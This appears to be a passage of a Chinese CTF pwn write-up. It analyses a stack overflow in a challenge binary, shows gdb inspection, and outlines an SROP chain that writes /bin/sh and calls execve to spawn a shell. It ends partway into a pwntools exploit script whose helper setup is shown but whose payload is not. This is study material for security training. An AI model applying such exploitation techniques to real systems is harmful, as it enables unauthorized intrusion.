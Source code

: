 先系统调用 write 打印字符，之后再调用 read 进行读取 0x400 的内容，典型的栈溢出，然后在 data 段开辟了 128 大小的 buf，可以用来写入数据

**gdb 动调**

断点打在**sub\_401000()**

[![](assets/1701612132-1d98e90a302bffab77674488ff8ac7c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001631-6d991e30-3d19-1.png)

看一下写入栈的情况

```plain
x/8gx 0x7fffffffdf10
```

[![](assets/1701612132-35d77c01c65bc3a1f30382ff6fb4f2ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001636-703764ee-3d19-1.png)

发现无法泄露栈地址

这个时候就要采取第二种思路了，构造 srop 链，先构造一个伪造的栈空间将 binsh 写入 data 段，之后再进行一次 srop 调用 execve() 从而 getshell

exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

#p=remote("node4.buuoj.cn",26002)
p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
```